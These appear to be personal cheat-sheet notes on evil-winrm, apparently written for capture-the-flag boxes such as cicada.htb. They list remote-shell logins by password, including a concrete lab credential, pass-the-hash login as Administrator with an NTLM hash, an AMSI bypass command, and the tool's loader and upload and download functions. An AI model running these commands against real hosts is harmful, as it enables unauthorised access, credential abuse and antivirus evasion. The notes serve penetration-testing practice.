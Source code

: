 ## password
`evil-winrm -i 10.10.10.2 -u apt -p mesh`
`evil-winrm -i cicada.htb -p 'Q!3@Lp#M6b*7t*Vt' -u 'emily.oscars'`
## hash
#### for exasample
- impacket-secretdup to winrm
- command
  - `evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb` 
## AMSI Bypass
`Bypass-4MSI`
## other
#### For example
```
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
`https://github.com/Hackplayers/evil-winrm`
